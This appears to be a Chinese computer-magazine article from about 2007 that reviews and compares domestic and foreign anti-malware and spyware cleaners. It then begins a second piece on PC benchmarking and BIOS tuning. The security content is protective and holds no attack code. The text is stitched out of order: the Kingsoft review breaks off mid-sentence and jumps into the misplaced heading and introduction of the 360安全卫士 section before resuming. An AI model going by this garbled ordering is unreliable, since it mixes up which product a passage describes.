> 使用360安全卫士进行漏洞扫描后，单击选择相应的漏洞补丁，即可弹出该补丁的详细信息。包括漏洞名称、微软名称、漏洞影响、建议、漏洞描述、下载页面、补丁地址、发布时间等。通过集中的统一化界面，用户对电脑的安全情况几乎了如指掌。如果觉得使用该软件修复比较缓慢，可以直接将补丁地址粘贴到FlashGet、迅雷等软件中，通过这些软件下载全部补丁，逐一进行安装，也可以制作补丁包进行安装。

此外，360安全卫士提供弹出插件免疫功能。在360安全卫士主程序中，单击“高级”图标下的“高级工具集”，在弹出的界面中点击“弹出插件免疫”按钮，即可在界面中对选中的插件进行设置。这里包含了最新的流行弹出插件，进行免疫设置时，选择需要免疫的弹出插件，点击“免疫选中插件”即可。

总之，360安全卫士在恶意软件清理方面功能十分突出，查杀速度快而且占用资源少，并提供了丰富的安全辅助工具，整体安全性能很高。加上其较高的版本更新频率和对用户反馈的快速反应，是一款值得推荐的安全防护软件。不过，软件所支持的系统版本和浏览器版本数量还有待提高，以满足更多的用户需求。

##### 2. 金山毒霸系统清理专家

推荐指数：★★★★☆

金山毒霸系统清理专家2.0是金山公司推出的一款免费软件，它能够对电脑系统进行全方面检查和维护，通过强大的恶意软件查杀、漏洞修补和系统修复的功能，帮助用户迅速提高系统的安全性。软件界面承袭了金山公司一贯的经典蓝色风格，看上去现代感十足。在操作习惯上，常用按钮操作都放置在界面左边，包括了“恶意软件查杀”、“漏洞修补”、“系统修复”、“网页防挂马”、“安全百宝箱”、“病毒木马查杀”等，点击相应的栏目即可进行具体操作。在首页界面中，软件可以针对整个系统进行“健康指数”的打分操作，满分为100分。打分操作如图5所示。

###### （1）对恶意软件的识别能力

在恶意软件的分类中，包含了恶意软件、广告软件和隐蔽软件。点击左侧的“恶意软件查杀”按钮，可以检查系统中的恶意软件情况。扫描后，结果可分别自动归类。不过，这样模糊的分类很容易给用户造成误解，例如，隐蔽软件是否属于恶意软件？在同样的操作环境下，金山清理专家检测的恶意软件仅为3项。需要说明的是，金山清理专家列出了专门的系统修复栏目，由于分类比较模糊的缘故，很多和IE相关的恶意软件也被列入该栏目，所以导致用户在首页看到的扫描项目总是偏少。

不过，金山清理专家对恶意软件的处理与360安全卫士有很大的区别。例如，百度搜索伴侣、YOK超级搜索等插件并没有被提示为恶意插件，而雅虎助手甚至被归入了“信任插件”一栏中。在扫描结果中，列出了该软件的详细信息，但感觉还不太丰富，甚至直接以“搜索与此相关的资料”连接了事。如果用户不能上网，那就根本没法了解了。在这点上，金山清理专家还需要更多考虑用户的感受。

> 金山清理专家设置了专门的IE管理栏。点击左侧的“系统修复”按钮，可以进入系统修复页面。在这个栏目，包含了许多和IE相关的设置。点击系统修复栏目右下方的“修复选中项”按钮，能够全面修复IE插件和扩展功能，使浏览器保持良好的操作性能；通过调整系统启动项，能够加速电脑启动过程。另外，还可以全面诊断系统安全状况，通过联机自动分析未知的加载项。

###### （2）清除恶意软件的功能

毕竟是出身杀毒专业公司，金山清理专家在清理恶意软件方面显得很规范，在清除的同时还增加了扫尾处理。通过使用“文件粉碎器”和抗Rootkits技术，可以彻底清除使用Rootkits技术进行保护和伪装的恶意软件。而且，能够一次性清除多种恶意软件和插件的混## 二、国内篇：主流恶意软件清理工具及使用

##### 1. 360安全卫士

推荐指数：★★★★☆

360安全卫士是奇虎公司推出的一款免费安全软件，它集成了查杀流行木马、清理恶评插件、管理启动项、清理系统垃圾等功能，力求为用户提供一站式系统安全防护解决方案。软件安装十分简便，并可以快速恢复系统，无须重复操作。

###### （3）资源占用情况

在本次操作中，查找和清除恶意软件的速度很快，在资源占用方面，金山清理专家所占用的内存为24.73MB，略小于360安全卫士。总体感觉上，对电脑速度没有什么影响。

###### （4）软件升级功能和附加工具

尽管是一款免费软件，金山公司仍然提供了强大的升级和辅助支持功能。点击主界面下方的升级连接，即可自动进行升级，并有实时的下载进度提示，但感觉升级速度偏慢，有时还会出现中途失败的情况。在漏洞修复方面，金山清理专家提供了快速修复操作系统和应用程序漏洞的功能，还提供了一个小巧的补丁管理工具。不过，本次所能检测的漏洞补丁仅为两个，与360安全卫士所检测的16个漏洞补丁相去甚远。在漏洞修复的提示上，有关补丁描述的资料比较模糊，甚至没有告诉用户详细下载地址。此外，软件还提供了网页防挂马、安全百宝箱功能；在安全百宝箱中，提供了文件粉碎器、LSP修复工具、历史痕迹清理、垃圾文件清理等工具。

总的来看，金山清理专家在软件清理功能上表现中等，对于恶意软件的判断标准与360安全卫士等软件还有许多不一致的地方。整体操作设计上存在分类不清晰的问题，尤其是对恶意软件的理解很容易让用户感到迷惑。在有关恶意软件和漏洞的资料描述上，还显得过于粗糙，没有给出更加详细的补丁下载提示。总体而言，在满足用户的操作习惯和管理细节等方面还有待加强。

##### 3. 瑞星卡卡上网安全助手

推荐指数：★★★★☆
瑞星卡卡上网安全助手4.0也是一款完全免费的全能型安全工具平台，它集查杀未知病毒、清除流氓软件、系统优化加速、超强系统防护等强大功能为一体，整体优势比较明显。软件沿袭了瑞星杀毒软件一贯的淡蓝色风格，上方的工具栏包括：基本功能、隐私保护、系统优化、防护中心、高级功能、软件推荐、诊断求助等。界面设计十分紧凑，包含的内容十分丰富。

###### （1）对恶意软件的识别能力

软件可以迅速查杀本机已存在的恶意软件，并列出详细信息。尤其是借鉴了许多病毒方面的新技术，如采用瑞星首创“变种共性特征比对”技术，针对家族性较强的病毒进行模糊检测，可有效检测出高达98.4%的病毒未知变种。卡卡上网安全助手也是对IE插件进行了单独列出，所以针对恶意软件的界定明显偏少。点击“基本功能”大图标，即可对系统的恶意软件进行扫描。同等条件下，在主界面中，卡卡上网安全助手所识别的恶意软件为3项。结果如图6所示。



### 图6

###### （2）清除恶意软件的功能

软件能够列出各种已知浏览器插件（如工具条、按钮、右键菜单、网络协议等），并提供了恢复IE浏览器和操作系统注册表功能。为了便于用户清理恶意软件，瑞星卡卡上网安全助手还列出了进程、模块信息，用户可以使用此功能自己来判别可能的非法程序，并且结束进程、查找窗口，查找模块等。此外，软件还列出了所有和系统开机启动过程相关的程序（注册表启动项、服务、登录、浏览器插件等），并可以编辑每一项操作，如删除、禁止、允许。

###### （3）资源占用情况

与庞大的瑞星杀毒软件相比，瑞星卡卡上网安全助手所占用的资源明显偏少，本次测试所占用的内存资源为28.36MB。在本次测试的几款软件中，相对偏高。

###### （4）软件升级功能和附加工具

在升级功能上，该软件采用了模块化设计思想，随时提供实用功能模块，打破了原来只有大版本升级才会有的功能提升。遗憾的是，软件没有提供系统漏洞升级功能。在附加工具方面，软件提供了应用软件管理功能，可以对计算机上的应用程序软件及组件进行扫描和管理。通过IE防漏墙，用户可以实时监控IE浏览器，当病毒试图通过浏览器入侵用户计算机时，进行拦截并报警，有效阻止网页木马、黑客入侵和恶意插件的入侵。此外，软件还提供了电脑使用痕迹清理、文件粉碎、垃圾文件清理、磁盘清理、磁盘碎片扫描等功能，可以有效提高电脑的安全性。

> 小技巧
> 瑞星卡卡上网安全助手提供了独特的账号“保险柜”功能。这是基于主动防御技术的全新技术应用模式，首先应用在瑞星杀毒软件2008版中，是业界最为专业和成熟的账号密码保护技术，目前已集成入卡卡上网安全助手之中。用户只需将网游、网银、聊天、股票等软件放到“账号保险柜”中，即可有效防止盗号木马的攻击和盗取。单击“隐私保护”大图标，即可进入该界面进行设置。

总的来看，瑞星卡卡上网安全助手功能更加细致，操作流程上也显得简洁明快，并应用了瑞星杀毒软件中的很多新技术，如“账号保险柜”功能就很有特色。不过，在恶意软件的分类和智能化清理方面仍然显得后劲不足，与普通用户在清理恶意软件方面的期待还有一定距离。

##### 4. 恶意软件清理助手

推荐指数：★★★☆☆
乍一看此款软件的名字，就知道它的来头不小了。这是近年来比较热门的“恶意软件”清理工具，其清理项目包括：恶意软件清理、系统进程清理、启动项目清理、注册表项清理、可疑文件搜索、临时文件清理等。

###### （1）对恶意软件的识别能力

果然是名不虚传，尽管只是一款个人软件，“恶意软件清理助手”对恶意软件的识别能力确实有其独特的地方，快速扫描后即可显示结果，并有风险等级供用户参考。在本次测试中，“恶意软件清理助手”识别的恶意软件数量为15个，大大超出其他相关软件在主界面的显示数目。当然，这也反映了软件对用户需求的了解。点击某个恶意软件，即可列出详细的进程信息、恶意软件所在的文件和文件夹、注册表中的相关信息。

###### （2）清除恶意软件的功能

选择相应的恶意软件后，点击右键，在弹出的菜单中选择“清理”选项，即可对相关对象进行清理。

###### （3）资源占用情况

尽管软件功能简洁，但占用的资源却比较多，让人有点不可思议。打开软件后，所占用的内存资源为32.74MB，扫描时内存占用最高达42.93MB，遥遥领先于其他软件。

###### （4）软件升级功能和附加工具

软件提供了网站升级功能，如果发现有新的版本，软件会提示自动升级。可能是个人网站的缘故，升级过程中感觉速度明显偏慢。在附加工具方面，在高级功能中包括：微软备份工具、文件提取、文件粉碎、IE浏览器清理、磁盘清理等。

总的来看，作为一款个性化的个人软件，“恶意软件清理助手”界面简单，操作快捷，但比较突出的问题是扫描速度比较慢，而且在发现的恶意软件数量上还比较少。在恶意软件的分类和详细信息上，还处于一种比较初级的识别和模糊判断阶段。由于操作简单而且能够快速发现典型的恶意软件，因此比较适合初级用户使用。

##### 5. Windows清理助手

推荐指数：★★☆☆☆

Windows清理助手界面采用了淡绿色风格，看上去有一种亲切明快的感觉。网站界面分为简洁模式和高级模式，实际使用中，用户可选择两种模式自由切换。在默认的简洁模式中，主要提供了“快速扫描”功能；在高级模式中，则包含了更多的自定义功能。

###### （1）对恶意软件的识别能力

进行恶意软件扫描时，扫描速度明显比较慢，需要花费几分钟时间。同等测试条件下，扫描后的恶意软件为10个。在扫描结果中，选择某个对象点击右键，就会出现该对象的相关操作信息，包括“清理”、“提取相关文件”、“显示详细信息”等。如图8所示。





###### （2）清除恶意软件的功能

它采用了最新的查杀引擎，可以检测多达近百种恶意软件，尤其是网络行业协会点名的“十大流氓软件”。选中相关的恶意软件后，点击“清理选中项目”连接，即可对相关软件进行清理。不过，在清理过程中偶尔会出现不能彻底清除的情况，有时还会出现一些恶意软件的残留痕迹。除了恶意软件清理功能，软件还提供了系统进程清理、启动项目清理、注册表项清理、可疑文件搜索、临时文件清理等功能。

清理恶意软件时，最好在Windows安全模式下进行。

###### （3）资源占用情况

软件所占用的资源很少，内存占用仅为2.43MB，扫描时最高占用也只有5.38MB，与其他软件相比，几乎可以忽略不计，这是占用资源最少的一款软件。

###### （4）软件升级功能和附加工具

通过升级服务器，能够提供快速的网络升级。在实用工具方面，软件还提供了浏览器修复、注册表备份、综合设置等功能。

总的来说，作为一款专业清理软件，Windows清理助手还是有一些独到之处的，尤其是资源占用十分少。不过，由于现在软件捆绑参差不齐，很多站点发布的软件可能会包含恶意程序，即使是专业的清理工具也不例外。所以，大家要注意到该软件官方网站或者一些信得过的网站下载使用。

当然，上述软件只是目前清理工具中比较典型的一部分。随着国内打击恶意软件的力度越来越大，同时也还涌现了一批优秀的清理工具。如Wopti流氓软件清除大师、EWIDO清理工具、完美卸载2007等。这些软件或偏重于安全防护，或偏重于清理或卸载能力，比较贴切地考虑了用户在某些方面的需求。

总体而言，在国内软件中，360安全卫士并非浪得虚名，由于其对用户的深层了解，无论是针对恶意软件的清理分类还是系统安全防护，都表现出明显的优势，即使与金山、瑞星等专业杀毒公司推出的安全助理软件相比也毫不逊色。相对而言，瑞星卡卡上网安全助手、金山清理专家在安全防护、病毒查杀等方面的功能比较强大，但缺乏对恶意软件的深入分析以及对用户需求的深入理解，因此，在恶意软件的查杀方面还需要下一番功夫，在智能化查杀方面逐步改进。让人欣喜的是，许多优秀的个人软件也层出不穷，这在客观上给恶意软件形成了一种穷追猛打的氛围。不过，在本次测试中，这些工具在对恶意软件的彻底清除能力方面都还略有欠缺，在这方面都还有很多需要改进的地方。

#### 三、国外篇：主流恶意软件清理工具及使用

通过对国外各大重点网站的检索以及相关报道，可以发现，国外相关站点对间谍软件、钓鱼式攻击软件等方面描述比较多见。可见，国内外的网络文化也呈现出许多差异。因此，在描述国外主流恶意软件时，主要以间谍软件、钓鱼式攻击软件为主。下面，选择几款优秀的清理工具进行介绍。

| 软件名称 | 版本 | 下载地址 |
| :--- | :--- | :--- |
| Ad-Aware 2007 | V7.0.2.1 | http://www.lavasoft.de/ |
|  |  | http://www.skycn.com/soft/6611.html |
| SpyBot Search and Destroy | V1.5.1.15 Final | http://spybot.safer-networking.de/ |
|  |  | http://www.skycn.com/soft/15694.html |
| Spy Emergency 2007 | V4.0.205 | http://www.skycn.com/soft/27613.html |

##### 1. Ad-Aware 2007

推荐指数：★★★★☆

要对付窃取电脑资料的间谍程序，可以利用Ad-aware 2007，这是一款免费的系统安全工具，它可以扫描内存、注册表、硬盘和外部存储器，快速找出广告跟踪文件和相关成分。新版本的Ad-aware 2007在功能上有一定提升，由于是英文版本，安装过程稍显复杂。安装完毕，在开始界面单击左侧的按钮，可以对软件进行相关的设置，包括“Status（状态）”、“Scan（扫描）”、“Ad-Watch（监控）”、“Web-Update（网络升级）”、“Tools&Plug-Ins（工具和插件）”、“Settings（配置）”等。其中，在“Settings（配置）”界面中，集中了一些安全方面的专家设置建议，如扫描引擎设置、清理引擎、安全设置、日志文件、用户界面等。整体界面采用了圆弧矩形设计，充满了现代感。如图9所示。



###### （1）对恶意软件的识别能力

下面，可以小试牛刀了。下面，查找并清除电脑中的“间谍”。

第1步：选择扫描模式。在软件启动后的主界面中，点击左侧的“Scan（扫描）”按钮，就会出现扫描设置栏。在这里，软件提供了三种模式：快速系统扫描、完整系统扫描、自定义系统扫描。在本例中，选择快速系统扫描。

第2步：开始快速扫描系统。单击“Scan（扫描）”按钮，Ad-Aware就开始自动检查一切与间谍软件有关的信息，并列举在结果窗口中。扫描完毕，在“危险对象”选项卡下面就会出现相关的间谍软件或疑似间谍信息。扫描后可以看到，被感染的可疑对象共有247个，大大高于国内相关软件。当然，这里包含了许多和浏览器相关的插件。可以看出，集中化的恶意软件管理界面对用户是大有帮助的。

> 小技巧
> 为了能有效地查杀间谍程序，在查杀之前请关闭所有浏览器窗口以及其他程序，并切断主机与网络之间的连接。

第3步：查看“间谍”对象的详细信息。在扫描后的结果中，可以看到项目的相关类别，双击该对象可以查看详细的路径和进程信息。选择一个项目，单击右键，可以看到弹出菜单提供了丰富的处理信息。在这个快捷菜单中，用户可以查看项目详情，显示该恶意软件的相关属性；也可以选择所有对象和取消对象，对项目进行灵活的操作。此外，还可以在资源管理器里显示属性，直接转到该键值或者显示相关摘要信息等。

###### （2）清除恶意软件的功能

在扫描结果界面中，选定需要处理的“危险对象”。如果担心将某个对象移除后，影响系统的稳定或者一些关联程序的运行，在选中该对象后，单击下方的“Quarantine（隔离）”按钮即可。如果打算对隔离对象进行删除或恢复等操作，可以打开隔离管理器，在选中的对象上单击右键，就可选择右键菜单上的选项进行相应操作了。

###### （3）资源占用情况

正常情况下，软件所占用的内存资源大约为23.82MB，对系统性能影响不大。

###### （4）软件升级功能和附加工具

首先，软件提供了网络升级功能，用户还可以自己下载数据库文件进行升级。其次，软件在实时监控方面的功能十分突出。除了能够直接对恶意窗口进行拦截，软件还包含了一个强大的实时监控工具Ad-Watch。它可以监视间谍软件对用户系统和注册表的操作。这个工具运行后，可驻留在系统托盘区中，并可以进行规则、过滤、弹出窗口等方面的设置。此外，用户还可以通过进程查看器了解详细的进程信息，如HWND、Class名称、进程ID、线程ID、文件名称等。目前，有些功能需要升级到更高版本才能使用，但一些版本较低的汉化版本提供了这些功能，用户可测试并使用该功能。

总的来看，作为一款老牌的间谍软件清理工具，Ad-Aware 2007在整体设计上十分流畅而且操作方便，新版本的软件强化了间谍软件扫描功能，尤其是可将许多国内的恶意软件扫描出来，并能够进行快速的清理。不过，软件目前还没有完全免费，部分功能只对高级用户开放。

##### 2. Spybot Search and Destroy V1.5

推荐指数：★★★★☆

Spybot Search and Destroy也是一个专门用来清理恶意间谍软件的工具，其版本历史比较悠久。软件最大的亮点是可以检测多种间谍软件，到目前为止，已经可以检测一万多种恶意间谍软件，并可对其中的一千多种进行免疫处理，而且这个软件提供了完全免费的中文版本。软件安装完毕即可看到灰色中文界面，比较符合国内用户的使用习惯。单击“模式”菜单下的“高级模式”，即可进行界面的切换。在高级界面中，左边是竖排的“检测与修复”、“设置”、“工具”等栏目，点击左侧的按钮，在右侧即可出现相应的设置。如图10所示。



###### （1）对恶意软件的识别能力

通过这个软件，可以很轻松地实现扫描、恢复。在主界面中单击“检测”按钮，或者单击左侧检测与修复栏目下的“检查与修复”图标，就可以对系统进行扫描。软件内置了49730个恶意软件样本，扫描完毕，在同等测试条件下，发现了50个可疑对象。同时，软件自动进入修复环节。在检测后的窗口中，单击某个恶意软件项目，可以看到该项目的详细键值，跟踪用户的详细路径等。

###### （2）清除恶意软件的功能

完成检测后，单击上方的“修复”按钮，就可以对出现问题的软件进行修复或清除。单击左侧的“免疫”按钮，单击上方的“Immunize（免疫）”按钮，就相当于给系统打了预防针，可以有效防范恶意程序的入侵。为了测试软件对恶意软件修改的实时监控能力，在扫描过程中，打开了一个IE窗口，软件可以自动弹出提示修改窗口，并提醒用户“检测到注册表中一个重要的项目已被修改”。同时，在提示窗口中列出了详细的类、信息和键值。可见，软件的实时监控能力很不错。

###### （3）资源占用情况

测试过程中，软件所占用的内存资源大概是44.88MB，相对较大。扫描过程中需要花费较长的时间，这也和该软件提供的大量样本库有关。

###### （4）软件升级功能和附加工具

软件提供了带有搜索功能的自动更新，点击“检测与修复”栏目下的“更新”按钮，即可弹出专用的搜索更新软件。选择需要更新的文件，即可自动完成网络升级。在高级模式下，还可以看到许多实用的安全工具，例如，“系统报表”可以提供详细的报表信息，“后台监控”能够显示后台运行的系统日志，“IE工具”提供了针对浏览器属性的相关设置，“注册表保护”可以查找注册表中的常见错误，“系统启动”工具则能够对系统启动时加载的相关程序进行设置等等。

总的来看，这款免费清理软件的样本数据库十分丰富，能够查杀国内外许多典型的恶意程序。软件的中文操作界面十分方便，通过几个简单的按钮即可完成对系统的扫描。对于所查找到的恶意程序，也能够显示在统一的界面中，并提供了详细的操作信息，修复过程简单明了。值得一提的是，软件还提供了强大的设置功能，用户可以自定义界面、设置任务计划等。唯一的缺陷是扫描速度比较慢，对国内部分恶意软件的识别还有待提高。

##### 3. Spy Emergency 2007

推荐指数：★★★☆☆

这是一款来自斯洛伐克的反间谍软件产品，专注于查杀间谍软件、木马、键盘记录机，以及广告程序等。从软件的名称来看，顾名思义为“反间谍应急中心”。其界面很酷，以火红的默认主题彰显其强力的查杀能力。初次安装后，软件会提示更新升级。目前，软件的数据库已收集了141737个特征码，数量十分巨大。整体感觉更类似一个杀毒软件。

###### （1）对恶意软件的识别能力

扫描恶意软件时，需要花费较长时间。在扫描界面中，可以设置扫描的范围，包括系统内存、系统注册表、系统Cookies、系统驱动器等。在上方区域内，用户可以自行定义扫描内容和扫描位置；在下方区域内，可以看到Spy Emergency已加载的间谍软件特征码数量，其中还包括已扫描的进程、已扫描的注册表项目、已扫描的Cookies、已扫描的文件和已发现的感染数量；右侧的列表框中将显示在扫描过程中检测到的感染项目。单击“开始”按钮，Spy Emergency将对电脑进行彻底检查，同时在界面的下方显示检测进度指示条和当前位置，扫描过程中，用户可以随时进行中止或暂停操作。

###### （2）清除恶意软件的功能

完成扫描后，如果发现了感染的项目，Spy Emergency会在右侧的列表框中列出感染项目，用户直接点击“前进”按钮，即可进入“移除”页面，用户可以一次性全部清除感染项目，也可以选择性清理。在移除页面中，可疑项目会出现在列表框中，单击每个项目前面的“+”号，可以展开分支查看相应的项目。此外，单击“隔离区”按钮，在隔离列表框中将显示所有已移除的感染项目，依次点击“全选”→“永久删除”按钮，即可清除所有选定的项目，当然通过“恢复”按钮也可恢复被隔离的项目。

###### （3）资源占用情况

尽管扫描需要耗费大量的时间，但软件所占用的资源并不庞大。测试过程中，内存资源占用大概为12.96MB。

###### （4）软件升级功能和附加工具

首次使用Spy Emergency时，需要升级间谍软件特征库，这样才能保证查杀的有效性和完整性，在Spy Emergency主界面上依次单击“选项”→“数据库”，在数据库选项卡中单击“立即更新”按钮，Spy Emergency会自动弹出更新状态进度对话框，并自动检测下载间谍软件特征码，以后用户在启动Spy Emergency时，软件会检测新的间谍软件特征码并自动更新升级。在实用工具方面，软件提供了独创的多轮检测技术，并提供常规的实时防护，操作过程十分简便。在垃圾邮件的防范上，该软件可以设置反垃圾邮件及疑似邮件间保护，从防范恶意邮件的角度来保证系统的安全。此外，该软件还提供了白名单功能，其中涵盖了不可被“误杀”的各种典型病毒特征的软件资料。

总的来看，该软件操作方便而且样本数据庞大，更偏重于病毒查杀方面的功能。

##### 4. 其他的清理工具

除了上述软件，还有不少优秀的国外清理工具。简介如下：

###### （1）Spy Sweeper V5.5.7.48

软件下载地址：http://sales.webroot.com/
Spy Sweeper是一个系统安全监控工具，它可以自动检测并清除系统的间谍软件。同时该工具还可对间谍软件的活动进行分析，从而了解间谍软件的行踪。安装软件后运行，进入主界面后即可进行系统参数的扫描设置，主要包括安全扫描级别、扫描计划设置、网站高级保护等。设置完毕即可对设置的区域进行扫描。扫描完毕，用户可以把不安全的数据隔离出来。

###### （2）SpyBlocker V9.3

软件下载地址：http://www.morerlerbe.com/spyblocker/
这是由EarthLink公司推出的一款防间谍软件产品，它与许多防火墙程序、浏览器、Windows操作系统相兼容，能阻挡广告、Cookies等恶意软件。其最显著的特点是，在达到清除恶意软件目的的同时，并不删除或修改任何程序或系统文件，而是从传输管道和接收的广告以及跟踪系统里封杀间谍软件。扫描结束后，它可将所有拦截的网址全部重定向到本机IP地址。如此一来，就完全切断了计算机与目标网址之间的联系，个人隐私自然能够得到很好的保护。在软件主界面的统计信息及端口状态项目中，还可以查看相应的参数。

目前，国外类似的软件清理工具还有很多，如Spytech NetArmor、SpywareGuard、BPS Spyware/Adware Remover、Spy Cleaner、SpyBouncer等。但真正免费的版本还不多见。

在我们删除这些“摄像头”的时候，还要注意将操作步骤记录到记录文件中；或者检查该间谍软件是否有自己的反安装程序，如果有，最好先用它自带的程序卸载，然后再使用清理工具进行清除。另外，某些软件程序和间谍软件结合十分紧密，以至于删除了间谍软件后，该软件就无法运行了，是删除还是保留，就要慎重考虑了。

除了上述注意事项，防范间谍软件还需要建立严格的防范措施。除了在电脑上尽量少保存个人敏感信息外，还要尽量避免从非官方的网站上下载和使用软件，对不了解的ActiveX插件禁止其安装。再者，在安装软件特别是一些免费软件前，要仔细阅读软件的隐私保护规定。有些软件在安装时，会给出一个“赞助商软件安装协议”，很多用户出于习惯，或是不懂英文，就点选了“同意”，从而安装了它们，这也是很容易让人疏忽的一个间谍“漏洞”。所以，在安装软件的过程中，如果出现有“Sponsor”（赞助商）字样的协议，就需要特别留意。最后，最好安装一款防病毒软件。

总之，有了上述软件的完美出击，我们就能在“香花”与“毒草”之间清楚的进行辨别，而不必担心恶意软件的骚扰了。

### 2007年PC测试软件扫描

◆文/方成亮

电脑发展到如今这一阶段，CPU已经不仅仅是衡量性能的唯一指标。硬盘、内存、显卡、光驱，这些设备都对电脑最终的性能发挥起到至关重要的作用。此外，随着多媒体与网络概念的兴起，电脑的功能愈加全面化。声卡、刻录机、显示器，这些设备的表现也是不容忽视的。详细地测试一番，了解系统的瓶颈在哪里，这对于购买电脑、升级电脑、使用电脑都是大有裨益的。

#### 一、测试前的准备工作：BIOS设置与操作系统优化

硬件性能的发挥与软件设定有很大的关系。如果在测试前没有充分优化的话，那么测试的结果会有很大的偏差。为此，我们将对Windows设置以及各个部件进行全方位的优化，只有这样才能让测试结果更加客观，具有参考价值。

##### 1. CPU在BIOS中的设置

CPU是发挥系统整体性能的关键，如果充分利用BIOS中对于CPU的优化选项，那么完全可以将整台机器的性能提升一个档次。相反，如果设置不当，那么CPU的效能将大打折扣。首先我们要关注的是CPU L2 Cache，这里一定要保证该功能被打开，不然CPU性能至少下降50%！L2 Cache的容量与速度直接决定CPU的档次，价格相差很大的CPU也主要是这方面有差距，想必大家也不愿意把酷睿2当成Celeron来使用吧。此外，对于L2 Cache ECC Check，大家可以关闭它，这样数据流就不会额外补上一个校验码，也避免CPU资源的浪费。

目前不少主板的BIOS还支持超频，这样CPU的性能会更上一层楼。一般我们只要在BIOS设置菜单中选择Frequency/Voltage/Control，然后可以分别设定CPU的外频与电压，少数CPU甚至可以随意设置倍频。如图1，设置CPU的倍频是一种提高主频的简单方法。



需要注意的是，我们应该首先尝试提高外频，并要遵循循序渐进的原则。如果CPU在超频后不稳定则可以考虑略微增加一点电压。不过并非每一款主板都有这项功能，名牌产品可能在这方面做得更加出色一些。

对于Intel平台而言，唯一的特殊点在于用户可以在BIOS中关闭超线程或者双核心功能，不过我们并不建议这样做。而对于AMD的K8平台而言，其特殊性就更加明显了。在提高CPU外频之后，相对应的HyperTransport总线频率也需要重新设置。以Socket AM2接口的处理器为例，其默认HyperTransport总线频率为1GHz，也就是5X的CPU外频。当我们将CPU超频到250MHz外频之后，如果不改变HyperTransport总线设置，其频率将会高达1.25GHz。对于部分nForce5主板而言，这或许并不影响工作，但是其它K8主板，特别是nForce4和K8T890将会比较吃力。

而如果是300MHz工作外频，那么5X HyperTransport就更加难以承受了，此时必须降低，以符合需求。在很多超频实例中，由于nForce5主板采用新版北桥，因此运行在1.5GHz HyperTransport都非常顺利。但是如果改为（300MHz x 5）超频设置，此时HyperTransport倍频必须设置为4X，因为1.2GHz HyperTransport频率对于大多数主板而言还是很容易承受的。如图2，在主板BIOS中设定HyperTransport频率。

##### 2. 内存优化

在BIOS中，各种针对内存的选项是我们关注的焦点，这也是提高系统整体表现的捷径。以普及度最高的AWARD BIOS为例，在Advanced Chipset Features菜单下，我们几乎可以找到所有与内存相关的设置选项。对于现在流行的DDR2内存而言，其优化的方法是一样的，只不过DDR2内存的延时普遍较高，各项参数都只能设置得比较保守。



对于大多数使用DDR与DDR2内存的芯片组而言，我们都需要在优化内存时涉及CAS Latency、CAS to RAS Delay、Precharge Time、Active Time以及Command Lead-off Time等选项，这些都会对内存性能产生不小的影响。事实上，CAS Latency（内存行地址延迟）和CAS to RAS Delay（内存行地址到列地址延迟）是其中最为关键的，其一般被选值是2.5或者3。从各项测试结果来看，这两项值对于性能的影响十分巨大，有时甚至凌驾于DDR频率之上。

不过，目前大多数DDR400内存都无法运行于“2”模式，只有少数精品才能做到。此外，选择将DDR400降到DDR333，然后运行于“2”模式可以增加成功率。需要注意的是，少数主板可能只有CAS Latency这一个选项，这表明“内存行地址延迟”与“内存行地址到列地址延迟”不能分别设定。至于Precharge Time、Active Time以及Command Lead-off Time等选项则相对次要。从理论上，延长Precharge Time可以增加稳定性，适合超频后的内存。而Command Lead-off Time是指调节参数。

##### 3. 显卡优化

显卡的发展速度十分迅猛，在3D游戏中，其重要性甚至已经超越了CPU。不过为了让我们的显卡发挥最大性能，在BIOS中的相关设置还是必不可少的。事实上，BIOS中关于显卡设置选项并不多，我们只要抓住几个要点即可。

###### (1) AGP显卡

AGP模式是我们首先需要关注的，这决定了AGP通道与芯片组之间的连接带宽，可以在BIOS中的选项位置设定。值得注意的是，AGP 8X的实现需要主板芯片组以及显卡两方面同时支持，缺一不可。在可能的情况下，建议大家尽量提高AGP模式，这对于提高性能还是有好处的。

除了AGP模式，我们对于AGP Aperture Size（交换材质）也不能忽视，它决定显卡共享系统内存的大小，这也是AGP的特色之一。从理论上说，提高AGP Aperture Size对于速度是大有好处的，特别是在高分辨率的环境下。然而在有些情况下，设置过大也是无济于事的，非但不会提升3D速度，还会造成AGP通道大量借用内存而使系统本身不够使用。一般而言，建议大家将AGP Aperture Size设定为128M，这样比较均衡。当然，对于使用高端显卡的用户，可以尝试256M以上。如图3，设定AGP倍数与Aperture Size。



AGP Fast Write也是我们优化的重点，如今大多数显卡都具备这项功能，它可以让显示指令直接传给显卡，而不占用系统内存，对于性能提升有较为明显的作用。不过要提醒大家，少数nForce3主板可能出现打开AGP Fast Write功能后容易崩溃的问题，此时建议大家关闭此功能。

至于AGP Driving Control，它是用来设定AGP到北桥芯片的信号强度，一般设定为Auto即可，不要去人工设定。

最后要强调的是，无论在什么情况下我们都应该将Video ROM BIOS Shadow打开，它可以把显卡的基本BIOS功能存储到内存里，以使它在任何时候都能被方便地调用，从而使CPU能以更高的速度读取。

###### (2) PCI Express显卡与集成显卡

PCI Express显卡需要关注的设置就比AGP少得多了。以AWARD BIOS为例，目前大家只需要将“PEG Force”选项设定为可允许的最高值即可，一般从x1 ~ x16。此外，部分主板还有“PEG Link Mode”选项，这里代表PCI Express总线与北桥芯片之间的连接速度，一般可以设置为所允许的最高速度。最后，少数主板还允许设置PCI Express的工作频率，不过我们建议大家不要去修改，为了微乎其微的性能而牺牲稳定性，这肯定是得不偿失的。如图4，设定“PEG Link Mode”



整合显卡的主板在优化时最需要关注的便是共享内存的容量大小，其它则与普通主板没有太大的差别。一般而言，我们建议大家将共享内存设定为系统物理内存的1/4，即拥有256MB内存的用户设定为64MB，依此类推。事实上，对于如今大多数整合显卡而言，如G965中的X3000、MCP68中的GeForce 7等，256MB内存共享已经绰绰有余，再次提高也不会有什么好处。然而，对于I865G等年迈的整合主板而言，我们设置64MB内存共享即可，毕竟其整合显示单元的本身就比较薄弱，没有必要占用太多的内存。

##### 4. 其他优化选项

从开机到出现Windows启动画面，有些机器要大约20秒，而有的却只有10秒不到，造成这一原因的主要因素就是BIOS设定。主板在开机时对IDE和SATA设备的检测要占用不少的时间，特别是将所有设备都设定为AUTO时。那么是不是找到对应的空闲IDE位置并将其设定为NONE就可以了呢？这样做也并非最好的方法，因为如此一来主板在开机时依然需要检测设备，也会占用宝贵的时间。其实此时还是利用HDD AUTO DETECT功能最为合适，这样做可以确保系统不必每次开机时检测。

